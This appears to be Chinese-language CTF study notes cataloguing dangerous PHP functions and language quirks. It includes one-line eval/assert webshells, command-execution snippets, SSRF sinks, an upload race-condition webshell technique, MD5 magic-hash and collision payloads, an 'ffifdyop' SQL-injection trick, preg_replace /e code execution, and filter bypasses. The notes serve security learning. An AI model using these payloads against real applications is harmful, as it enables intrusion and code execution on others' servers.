

PHP标签
<?php phpinfo()
<?php phpinfo()?>
<?php phpinfo();?>
<?= phpinfo() ?> #short_open_tag = On
<script language="php">
phpinfo();
</script>
# ASP 风格的标签已在 PHP 7.0 中移除，不建议使用。
<%
phpinfo();
%>
代码执行函数
eval
<?php eval("$_POST[1]")?>
传参?1=system('payload');，需要在语句末加上；
也可以传参?1=saduasgdasda;system('payload');,因为eval 函数在执行时，第一条命令执行失败并不会影响第二条。
也可以传参?1=?><?php system('payload');?>
assert
<?php assert("$_POST[1]")?>
?1=system('payload')
不需要在语句末加上；
eval和assert二者区别--注意
php5中assert是一个函数，我们可以通过$f='assert';$f(...);这样的方法来动态执行任意代码。
但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码
preg_replace的/e模式
php版本<5.5
preg_replace('/pattern/e',$command,$value );
在/e模式下，如果正则匹配成功，就会命令执行preg_replace()的第二个参数
create_function
PHP 7.2.0 起被废弃，并自 PHP 8.0.0 起被移除
create_function($a,$b);
等价于
function lambda($a){
$b;
}
当$b=1;}phpinfo();/*时
function lambda($a){
1;}phpinfo();/*
}
整理一下
function lambda($a)
{
1;
}
phpinfo();
/*}
执行了phpinfo()
call_user_func()
<?php
function cmd($n)
{
system($n);
}
$func = 'cmd';
$cmd = "whoami";
# 第一个参数为回调函数,其余参数是回调函数的参数
$b = call_user_func($func, $cmd);
call_user_func_array()，第二个参数要为数组
<?php
function cmd($n)
{
system($n);
}
$func = 'cmd';
$cmd = ['whoami'];
# 第一个参数为回调函数,其余参数是回调函数的参数
$b = call_user_func_array($func, $cmd);
变量函数
PHP<7
如果在一个变量后面加上一对括号，那么解释器会试图寻找名字和这个变量的值一样的一个函数，如果找到了就执行它。
所以php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数。
<?php
$b="system('whoami')";
$a='assert';
$a($b);
?>
数组函数
array_map
<?php
function cmd($n)
{
system($n);
}
$func = 'cmd';
$cmd = ['whoami','whoami'];
# 第一个参数为回调函数，第二个为传入的参数数组
$b = array_map($func, $cmd);
相当于执行了两次whoami命令
array_filter
参数位置换了一下
<?php
function cmd($n)
{
system($n);
}
$func = 'cmd';
$cmd = ['whoami'];
# 第一个参数为传入的参数数组,第二个参数为回调函数
$b = array_filter($cmd, $func);
usort、uasort
PHP<7
<?php
usort($_GET,'system'); //xxx.php?1=1&2=whoami
usort(...$_GET); //xxx.php?1[]=test&1[]=phpinfo();&2=assert
命令执行函数
相关函数
# 默认无回显
exec()
shell_exec()和反引号
popen()，proc_open()
# 默认有回显
system()
passthru()
exec()
string exec ( 命令，结果数组 ，状态码 )
<?php
exec("whoami",$output,$return_var);
# 默认无回显，要想获得结果，就要输出第二个参数
print_r($output);
echo "\n";
# 命令执行成功的状态码为0
print_r($return_var);
system()
string system ( 命令, 状态码 )
实际上是执行了sh -c "command"命令
system()函数执行有回显，将执行结果输出到页面上
<?php
system("whoami");
?>
passthru()
void passthru ( 命令, 状态码 )
和system函数类似，执行有回显，将执行结果输出到页面上
<?php
passthru("whoami");
?>
shell_exec()和 反引号
string shell_exec( 命令 )
shell_exec()函数默认无回显，通过 echo 可将执行结果输出到页面
<?php
shell_exec("whoami");
echo shell_exec("whoami");
?>
shell_exec() 函数实际上仅是反撇号 () 操作符的变体，当禁用shell_exec时，` 也不可执行
反引号在php中称之为执行运算符，PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回
<?php
`whoami`;
echo `whoami`;
?>
popen()
resource popen ( string $command , string $mode )
函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。
函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。
<?
$fp = popen('ls -l', 'r');
if (!$fp) {
echo "popen() failed\n";
exit(1);
}
while (($line = fgets($fp)) !== false) {
echo $line;
}
pclose($fp);
?>
proc_open()函数
与popen()类似，只是可以开两个管道。
<?
resource proc_open (
string $cmd ,
array $descriptorspec ,
array &$pipes [, string $cwd [, array $env [, array $other_options ]]]
)
<?php
$test = "ipconfig";
$array = array(
array("pipe","r"), //标准输入
array("pipe","w"), //标准输出内容
array("pipe","w") //标准输出错误
);
$fp = proc_open($test,$array,$pipes); //打开一个进程通道
echo stream_get_contents($pipes[1]); //为什么是$pipes[1]，因为1是输出内容 stream_get_contents — 读取资源流到一个字符串
proc_close($fp);
?>
文件操作函数
https://www.php.net/manual/zh/ref.filesystem.php
fopen() 模式
| :- | - |
|---|---|
r |
读 |
r+ |
读写，前置 |
w |
写入，截断 |
w+ |
读写，截断 |
a |
写，追加 |
a+ |
读写，追加 |
写入文件
<?php
?>");
?>
<?php
$data = "Hello, world!";
$filename = "example.txt";
# FILE_APPEND:数据追加，而不是覆盖
file_put_contents($filename, $data, FILE_APPEND);
?>
<?php
$file = fopen("example.txt", "a");
fwrite($file, "Hello, world!");
fclose($file);
?>
读取文件
readfile(filename)
file_get_contents(filename)
highlight_file(filename,默认false) false:才会将内容打印出来
show_source(filename)
命令执行
删除文件
<?php
$filename = "example.txt";
if (file_exists($filename)) {
unlink($filename);
echo "File '$filename' has been deleted.";
} else {
echo "File '$filename' does not exist.";
}
?>
复制文件
copy(源文件,目的文件)
读取目录
scandir('.')等价于scandir('./')都是得到当前目录下的文件
以数组的形式返回
查找文件或目录
glob() 类似于find
以数组的形式返回

文件上传
Content-Disposition: form-data; name="file"; filename='xxx'
# ['file']是Content-Disposition中name的值
$_FILES['file']['name'] 客户端文件名称
$_FILES['file']['type'] 文件的MIME类型 image/jpeg,image/png,application/octet-stream
$_FILES['file']['size'] 文件大小 单位字节
$_FILES['file']['tmp_name'] 文件被上传后再服务器端临时文件名，可以在php.ini中指定
# 加入文件头绕过：GIF89a
getimagesize() 图片大小
exif_imagetype() 图片类型
上传过程
在文件上传结束后，文件默认被储存在临时文件夹中，这时必须把他从临时目录中删除或移动到其他地方，否则，脚本运行完毕后，自动删除临时文件，可以使用
copy或者move_uploaded_file两个函数。
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']; if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
条件竞争Demo
if(move_uploaded_file($temp_file, $upload_file)){
# move_uploaded_file成功后才判断是否合法
if(in_array($file_ext,$ext_arr)){
$img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
rename($upload_file, $img_path);
$is_upload = true;
}else{
$msg = "只允许上传.jpg|.png|.gif类型文件！";
unlink($upload_file);
}
}else{
$msg = '上传出错！';
}
原理：服务端先将上传的文件写入，再判断是否合法，通过条件竞争在文件删除前访问webshell写入新的webshell即可。
SSRF函数
file_get_contents将整个文件读入一个字符串
支持本地文件和远程文件
<?php $url = $_GET['url']; echo file_get_contents($url); ?>
curl_exec()执行给定的 curl 会话。
<?php function curl($url){ $ch = curl_init(); curl_setopt($ch, CURLOPT_URL, $url); curl_setopt($ch, CURLOPT_HEADER, 0); curl_exec($ch); curl_close($ch); } $url = $_GET['url']; curl($url); ?>
fsockopen使用socket跟服务器建立tcp连接，传输原始数据。
<?php function GetFile($host,$port,$data) { $fp = fsockopen($host, intval($port), $errno, $errstr, 30); if (!$fp) { echo "$errstr (error number $errno) \n"; } else { //$fp:TCP连接 $data:请求头 fwrite($fp, base6e_decode($data)); $contents=''; //执行http请求，并获得返回值 while (!feof($fp)) { $contents.= fgets($fp, 1024); } fclose($fp); return $contents; } } $content=GetFile($_GET['host'],$_GET['port'],$_GET['data']); echo $content; ?>?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo data--> GET /flag.php HTTP/1.1 Host: 127.0.0.1 Connection: Close
文件包含函数
require():找不到被包含的文件会产生致命错误，并停止脚本运行include():找不到被包含的文件只会产生警告，脚本继续执行require_once()与require()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含include_once()与include()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含
变量覆盖
extract()# 从数组中将变量导入到当前的符号表 <?php $auth=false; # ?auth=true extract($_GET); if ($auth){ echo "over"; } ?>import_request_variables()--php<5.4.0<?php $auth='0'; # G代表GET，P代表POST，C代表COOKIE import_request_variables( 'G'); # xx.php?auth=1 if($auth==1) { echo "private! ";} else{ echo "public! ";} ?>$$<?php $a='hello'; $$a='world'; echo "$a ${$a} "; echo "$a $hello"; ?> >>hello world hello world # ${$a}等同于$hello # 存在变量覆盖Demo $auth=0; foreach ($_GET as $key => $value) { $$key=$value; } echo $auth;parse_str(query,variabal)<?php $str = "first=value&arr[]=foo+bar&arr[]=baz"; // 推荐用法 parse_str($str, $output); echo $output['first']; // value echo $output['arr'][0]; // foo bar echo $output['arr'][1]; // baz // 不建议这么用 parse_str($str); echo $first; // value echo $arr[0]; // foo bar echo $arr[1]; // baz ?>
用户传参
$_GET
$_POST
$_COOKIE
$_REQUEST
$_FILES
$_SERVER
$GLOBALS
$_SERVER[xx]
获取当前url路径的函数及服务器变量
https://www.cnblogs.com/qiantuwuliang/archive/2010/02/28/1675279.html
$_SERVER["QUERY_STRING"]：查询(query)的字符串
$_SERVER["PHP_SELF"]：当前正在执行脚本的文件名
获取所有变量/函数/常量
其他
大小写
在 PHP 中，关键字（例如if、 else、while、 echo等）、类、函数和用户定义的函数不区分大小写。
但是所有变量名都区分大小写！
<?php
ECHO "Hello World!<br>";
echo "Hello World!<br>";
EcHo "Hello World!<br>";
?>
-->Hello World!
PHP接收参数
https://blog.csdn.net/bylfsj/article/details/102770461
https://y4tacker.blog.csdn.net/article/details/120502141
PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => "bar")
php从请求的url中取出参数并保存之前，对参数名的操作：
1.删除参数名前的一些符号
2.将某些字符转换为下划线（尝试后[好像不能被解析为_）
3.删除参数名后的一些符号

弱类型比较
PHP7以前的版本支持将多进制的数值转换，所以'1'=='0x1'是成立的，但新版本是false。
==（宽松比较）
NULL == false == 0
[false] == [0] == [NULL] == ['']
其他数字==True
数字字符串与数字
<?php
var_dump("admin"==0); //true
var_dump("1admin"==1); //true
var_dump("admin1"==1) //false
var_dump("admin1"==0) //true
var_dump(' 2asda'==2);//true
?>
这是因为在执行关系运算”==“时要求运算符两边的数据类型必须一致(字符串与整型比较，字符串→整型)，当字符串转换为整型时，如果字符串以整型开头或者以空格+整型开头，就取整型的值，反之则取值0.
例子
if (!is_numeric($passwd))
{
if($passwd==1234567)
{
echo $flag;
}
}
payload:passwd=1234567sdkasj (不要加引号,默认接收字符串参数)
0e科学计数法
var_dump("0e123456"=="0e4456789"); //true
var_dump("0e123456"=="0easdasd9");//false
而当字符串中含有0e/0E时，php会将0e这类字符串识别为科学技术法的数字，而0的多少次方都等于0，所以相等。
===（严格比较）
<?php
$str = "0dff";
if (0 === $str) {
echo "true";
}else{
echo "false";
}
?>
>>false
全等于操作过程如下： 1.判断两边数据类型是否相同
2.判断两边值是否相同
3.将前两步的结果进行与运算，得出最终结果
MD5缺陷
①MD5（string,raw）函数解析
<?php
$a=md5('ffifdyop');
$b=md5('ffifdyop',true);
echo "$a";
echo PHP_EOL;
echo "$b";
?>
>>276f722736c95d99e921722cf9ed621c
'or'6�]��!r,��b
当raw=true时，浏览器会对其返回的数据'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c（原始二进制格式）进行了字符化处理，由此就会产生乱码。
我们可以发现得到的字符串含有'or'6,,可以用来进行sql注入
如select * from 'admin' where password=md5($pass,true)
<?php
$str = "PHP";
$a=substr(md5($str),8,16);
$b=md5($str);
echo "$a";
echo PHP_EOL;
echo "$b";
?>
>> 04a5c23ac138da22
2fec392304a5c23ac138da22847f9b7c
我们可以发现md5的密文中，16位密文与32位密文的第8-24位子字符串是一样的。
②弱类型比较
PHP在处理哈希字符串时，通过!=或==来对哈希值进行比较，当哈希值开头为0e时，在比较的时候会将其视作为科学计数法，而0的多少次方还是0
所以MD5('QNKCDZO')==md5('s878926199a')
QNKCDZO
0e830400451993494058024219903391
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
1586264293
0e622743671155995737639662718498
240610708
0e462097431906509019562988736854
$a==md5($a)
$a=0e215962017
md5($a)=0e291242476940776845150308577824
③强比较绕过
在使用===或！==来进行强比较时
可以通过构造参数为数组类型来进行绕过
原理：md5()函数无法处理数组类型的数值，会直接返回NULL
那么MD5(param1[])===MD5(param2[])从而绕过
当然弱类型比较也可以使用这种方法来进行绕过
if (md5($id) === md5($gg) && $id !== $gg)
>>payload:id[]=xxx&gg[]=xxx
但是当限制了传入的参数必须为string类型时上述方法就不可以了
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
echo 1;
} else {
echo 0;
}
使用md5碰撞生成相同md5
使用burp发送如下
url编码 1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%CEZr%C6%1D%28j%22%9E%60%8Dt%AB4%ADU%E5%8B%89%89%E6j%D0FH%EE8%D1%E6%11%18%AB3%A6%EC%E3%B8%2F%3C%97k%0CIt%02%94%92W%9D%ED%B9%EDc%CC%5D%2A%A1%9B%B3%7B%27%13i%05%8A%A7%5E%B3J%BE.R%A6%D7%D5%7C%A4%24%A5%DB%84%D8%E7%A3%03%E4F%EC%1C%95%B1%D6L%88%AD%CD%D5%CF%B6%E8%26%AEff%2A%3B%C9%D9%9B%C8z%7E%DB%A4m%C5%8F%CF%83%06%5E%EA%CCW%B3M%3E%C8
url编码 1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%CEZr%C6%1D%28j%22%9E%60%8Dt%AB4%ADU%E5%8B%89%09%E6j%D0FH%EE8%D1%E6%11%18%AB3%A6%EC%E3%B8%2F%3C%97k%0CIt%02%14%93W%9D%ED%B9%EDc%CC%5D%2A%A1%9B%B3%FB%27%13i%05%8A%A7%5E%B3J%BE.R%A6%D7%D5%7C%A4%24%A5%DB%84%D8%E7%23%03%E4F%EC%1C%95%B1%D6L%88%AD%CD%D5%CF%B6%E8%26%AEff%2A%3B%C9%D9%9BHz%7E%DB%A4m%C5%8F%CF%83%06%5E%EA%CC%D7%B3M%3E%C8
如何生成
http://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip
fastcoll可以根据已知的数据头，在其后面分别附加两组128字节的数据（如果没对齐，还会加上其他数据），生成两个文件，并保证两个文件的MD5值相同。
并且根据MD5的特性：在两个MD5相同的文件后，如果附加上MD5相同的数据，生成的两个文件MD5依旧相同（虽然MD5会变，但是两个文件MD5相同）。就是这个公式：
hash(A) = hash(B) -> hash(A + C) = hash(B + C)
根据这个结论，我们可以得到如下结论：
利用fastcoll，可以对固定开头和固定结尾的数据，生成两组不同的数据（数据内容不可控）拼接上头和尾，分别生成两个文件，保证他们的MD5相同。
语言构造器
[语言构造器和变量函数]https://segmentfault.com/q/1010000000188609
 当解释器遇到：
当解释器遇到：
echo 'Hello world';
这样的一个表达式的时候，并不会把它转换成函数调用，而是直接映射到一系列预先定义好的操作。使用语言构成的时候可以加括号，也可以不加括号，但是使用函数的时候必须加括号。
精度缺陷
php最大精度是14位，如果超出14位会衰减


if($this->trick1 !== $this->trick2 && md5($this->trick1) === md5($this->trick2) && $this->trick1 != $this->trick2)
{
echo 'success';
}
payload
trick1=0.1&trick2=0.100000000000001
都为INF/NAN(极小/极大)
strcmp()--数值比较
使用条件：php>=5.3
当程序逻辑进行了数值的比较时，可以尝试比较函数是否为strcmp()
int strcmp ( string $str1 , string $str2 )
如果 str1 小于 str2 返回 < 0； 如果 str1 大于 str2 返回 > 0；如果两者相等，返回 0。(区分大小写)
但是strcmp()比较的对象是字符串和数组的时候，虽然会报错，但是仍然会直接返回0，这样通过把目标变量设置成数组就可以绕过该函数的限制。
#php7.0
<?php
$password = ['1','2'];
if (strcmp('admin',$password))//字符串与数组进行比较
{
echo "No!";
}
else{
echo "Success!";
}
?>
>>Warning: strcmp() expects parameter 2 to be string, array given in /usercode/file.php on line 3
Success!
intval()--php5

is_numeric（）
$s = is_numeric($_GET['s'])?$_GET['s']:0;
$sql="insert into test(type)values($s);"; //是 values($s) 不是values('$s')
mysql_query($sql);
上面这个片段程序是判断参数s是否为数字，是则返回数字，不是则返回0，然后带入数据库查询。（这样就构造不了sql语句）
我们可以把‘1 or 1' 转换为16进制 0x31206f722031 为s参数的值
l
array_search/in_array
大海捞针，在大海（
haystack）中搜索针（needle），如果没有设置strict则使用宽松的比较。
参数：(mixed $needle, array $haystack, bool $strict = false): bool
当模式为false时，其查找是通过==来比较的
当模式为true时，其查找是通过===来比较的
escapeshellarg和escapeshellcmd
https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html
https://www.anquanke.com/post/id/107336
preg
preg-match（正则表达式，待匹配字符串，捕获分组）
preg_match()返回
pattern的匹配次数。 它的值将是0次（不匹配）或1次，因为preg_match()在第一次匹配后 将会停止搜索。
漏洞
1.参数为字符串，传递数组返回false
php低版本
2.非/s模式下不匹配换行符%0a 3.非/m模式下不匹配多行
preg_replace（正则表达式，替换字符，待匹配字符串，替换次数）
替换次数默认为1，可以用双写绕过
/e模式下的代码执行 （php5.5版本以下）
buu--[BJDCTF2020]ZJCTF，不过如此
<?php
error_reporting(0);
function complexStrtolower($regex, $value){
return preg_replace('/('.$regex.')/ei', 'strtolower("\\1")', $value);
}
foreach($_REQUEST as $regex => $value){
echo complexStrtolower($regex, $value) . "\n";
}
highlight_file(__FILE__);
?>
在/e模式下，如果正则匹配成功，就会执行preg_replace()的第二个参数
相当于 eval('strtolower("\1");')
如何利用\1实现代码执行呢？
注意到第一个参数所代表的正则表达式，是将匹配到的字符作为捕获分组，而捕获分组下标是从1开始的，即匹配到的字符会代替\1→eval('strtolower("payload");')

还有一个注意点是"payload"是由双引号包围起来的，再配合可变变量，才能够执行任意代码。
payload
\S*=${phpinfo()}
\S*→$regex 用于正则匹配/捕获
${phpinfo()}→$value 待匹配字符
${phpinfo()}:要将待匹配字符构造成可变变量的形式才可以执行phpinfo()
可变变量：
<?php
$a = 'hello';
$hello = 'world';
echo "$a ${$a}";
?>
>> hello world
basename
basename会忽略一些奇怪的字符%80 ~ %ff。
buu ----[Zer0pts2020]Can you guess it?
include 'config.php'; // FLAG is defined in config.php
if (preg_match('config\.php\/*$', $_SERVER['PHP_SELF'])) {
exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
highlight_file(basename($_SERVER['PHP_SELF']));
exit();
}
目标：basename($_SERVER['PHP_SELF']==config.php
- 需要绕过过滤config.php\/*$，$匹配末尾，所以只要在config.php后添加字符即可绕过。
- $_SERVER['PHP_SELF']：返回的是当前文件相对于根目录的路径host/$_SERVER["PHP_SELF"]即url==host/$_SERVER["PHP_SELF"]
- basename：返回当前文件名即最后一个/xxx中的xxx

为了绕过正则，需要在1.php后加字符

但是这样basename匹配到的就不是1.php了
不过basename有一个特性就是：如果匹配到的文件名头是不可打印字符，会把它忽略掉

这样basename原先匹配到的是%81，但是%81是不可打印字符，会把它忽略掉，所以就会往前匹配，匹配到1.php

伪随机数
mt_srand(x):设定随机数种子为x
mt_rand(a,b):生成[a,b]间的随机数
随机数生成函数，实质上生成的是线性的伪随机数，简单来说就是y=ax，x就是种子，a是范围，y就是生成的随机数。
所以只要种子固定了，每次生成的随机数都是相同的。
已知在同一个种子下生成的多个随机数
https://blog.csdn.net/weixin_34255793/article/details/92713300
使用php_mt_seed对第一个随机数进行爆破，得到可能的种子（因为第一次调用mt_rand()函数的时候种子就确定下来了） 然后用得到的种子来生成随机数，进行比对即可得到正确的种子
已知第一个随机数
https://blog.csdn.net/qq_52907838/article/details/119824220
php_mt_seed中给出的方法

对应脚本
<?php $pass_now = "Unclt9Kr75";//第一个随机数的前十位 $allowable_characters = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'; $length = strlen($allowable_characters) - 1; for ($j = 0; $j < strlen($pass_now); $j++) { for ($i = 0; $i < $length; $i++) { if ($pass_now[$j] == $allowable_characters[$i]) { echo "$i $i 0 $length "; break; } } } ?><?php $pass_now = "KVQP0LdJKRaV3n9D";//完整的随机数 $allowable_characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'; $length = strlen($allowable_characters); $a = $length-1; for ($j = 0; $j < strlen($pass_now); $j++) { for ($i = 0; $i < $length; $i++) { if ($pass_now[$j] == $allowable_characters[$i]) { echo "$i $i 0 $a "; break; } } } ?>

关于php_mt_seed https://www.openwall.com/php_mt_seed/
$_SERVER变量缺陷
<?php
$a=$_GET['a'];
echo $a;
echo '<br>';
echo '<br>';
echo '$_SERVER[QUERY_STRING] ';
var_dump($_SERVER['QUERY_STRING']);
echo '<br>';
echo '<br>';
echo '$_REQUEST ';
var_dump($_REQUEST);
echo '<br>';
echo '<br>';
echo '$_SERVER ';
var_dump($_SERVER);
echo '<br>';
echo '<br>';

$_SERVER['PHP_SELF']：返回的是当前文件相对于根目录的路径host/$_SERVER["PHP_SELF"]即url==host/$_SERVER["PHP_SELF"]
parse_url
使用方法
用于解析url，获得url的组成部分

<?php
$url = "http://www.zcool.com.cn/suning?p=69#tab_anchor";
echo $url.'</br>';
$parts = parse_url($url);
var_dump($parts);
?>
>>
http://www.zcool.com.cn/suning?p=69#tab_anchor</br>array(5) {
["scheme"]=>
string(4) "http"
["host"]=>
string(16) "www.zcool.com.cn"
["path"]=>
string(7) "/suning"
["query"]=>
string(4) "p=69"
["fragment"]=>
string(10) "tab_anchor"
}
漏洞
不应该将其作为检验url是否合法的手段
解析失败
#/test/1.php <?php $data = parse_url($_SERVER['REQUEST_URI']); var_dump($data); $filter=array("aaa","qqqq"); foreach($filter as $f) { if(preg_match("/".$f."/i", $data['query'])) { die("Attack Detected"); } } $a = $_GET['aaa']; echo $a; ?>http://127.0.0.1/test/1.php?aaa=1
我们查询的字符串被拦截，没有输出a=1
http://127.0.0.1///test/1.php?aaa=1
在正常路径前加上//，parse_url就会解析失败，从而绕过过滤，成功输出a=1
端口解析错误
php5.5以上
<?php $test = '//pupiles.com/about:1234'; var_dump(parse_url($test)); ?>>> array(3) { ["host"]=> string(11) "pupiles.com" ["port"]=> int(1234) ["path"]=> string(11) "/about:1234" }parse_url解析出了端口号，认为访问的是pupiles.com的1234端口下的about:1234文件，而实际上是访问pupiles.com下的about:1234文件
路径解析错误
<?php $uri = "/upload"; $data = parse_url($uri); print_r($data); // doubleslash case $uri = "//upload"; $data = parse_url($uri); print_r($data); ?>>> Array ( [path] => /upload ) Array ( [host] => upload )可以看到parse_url解析时，/xxx解析为路径，//xxx解析为主机
is_file
if($file == "f14g.php" OR is_file($file))
{
echo file_get_contents($file);
}
else{
echo false;
}
- 伪协议 is_file检测除了file外的伪协议都是false
- 假目录
./xxx/../f14g.php
strip_tags
if (strstr(strtolower($file['name']), ".php") ) {
return false;
}
$file['name'] = strip_tags($file['name']);
payload
$file['name']=1.<>php